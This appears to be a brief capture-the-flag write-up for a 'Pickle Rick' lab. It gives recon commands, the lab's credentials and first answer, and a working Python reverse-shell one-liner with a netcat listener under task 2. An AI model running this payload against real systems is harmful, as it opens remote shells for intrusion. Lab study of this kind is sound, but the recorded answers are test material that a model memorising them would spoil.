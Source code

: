 # Picle Rick

```
export IP=10.10.46.210
```

# Nmap (to scan open hosts)

```
nmap -sC -sV -oN nmap/initial IP 
```
# Nikto

```
nikto -h http://$IP | tee nikto.log
```

# Gobuster

```
gobuster dir -u http://$IP -w /opt/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```

# Command Pannel
```
grep -P . (To read all files in folder)
```

# Tasks

1. What is the first ingredient Rick needs?

```
Username = R1ckRul3s
```
```
robots.txt = Wubbalubbadubdub (password)
```
```
Command Panel: less Sup3rS3cretPickl3Ingred.txt
```
```
Answer is mr. meeseek hair
```


2. What is the second ingredient Rick needs?

Getting a reverse shell:

```
ip addr show tun0 (show my ip)

10.4.32.95
```
```
nc -lnvp 9999
```
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.32.95",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

3. What is the final ingredient Rick needs?
